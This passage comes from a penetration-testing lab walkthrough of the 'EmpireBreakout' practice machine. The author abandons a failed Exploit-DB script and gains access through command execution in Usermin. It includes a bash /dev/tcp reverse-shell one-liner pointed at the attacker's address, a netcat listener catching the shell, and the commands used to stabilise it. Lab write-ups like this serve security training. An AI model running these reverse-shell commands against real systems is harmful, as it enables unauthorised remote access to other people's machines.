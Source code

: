 Now searching for exploit leads to this [Exploit](https://www.exploit-db.com/exploits/50234)

Lets see what is required

```
┌──(mark__haxor)-[~/_/B2B/Pg/Practice/EmpireBreakout]
└─$ python3 exploit.py                                                  
usage: exploit.py [-h] -u HOST -l LOGIN -p PASSWORD
exploit.py: error: the following arguments are required: -u/--host, -l/--login, -p/--password
```

So just the host username & password

I'll check out the code and edit the ip for it to send the reverse shell
![image](https://user-images.githubusercontent.com/113513376/214692275-8b27edb2-b58c-4a90-aedc-e0685d43d071.png)

Now lets run the exploit with the required argument and i also have a netcat listener open on port 80

For some reason the exploit doesn't work i have no idea why

Anyways lets check out what usermin does

After playing around with it i learnt that its possible to execute commands on the remote server either maybe via cronjob or the minimal shell
![image](https://user-images.githubusercontent.com/113513376/214699372-a2cb7472-96a3-40e2-8db4-3b0d2770bebd.png)

So lets get a reverse shell then 

```
┌──(mark__haxor)-[~/Desktop/Tools]
└─$ ./shellgen.sh -t bash -i 192.168.45.5 -p 1337       
bash -i >& /dev/tcp/192.168.45.5/1337 0>&1

```

Now i'll put the payload on the server
![image](https://user-images.githubusercontent.com/113513376/214699927-59207b50-a26a-4b8d-b9db-e7bcf0fb815e.png)

```
┌──(mark__haxor)-[~/Desktop/Tools]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [192.168.45.5] from (UNKNOWN) [192.168.153.238] 48032
bash: cannot set terminal process group (3083): Inappropriate ioctl for device
bash: no job control in this shell
cyber@breakout:~$ 
```

Now time to stabilize the shell

```
python3 -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
CTRL + Z
stty raw -echo;fg
reset
```
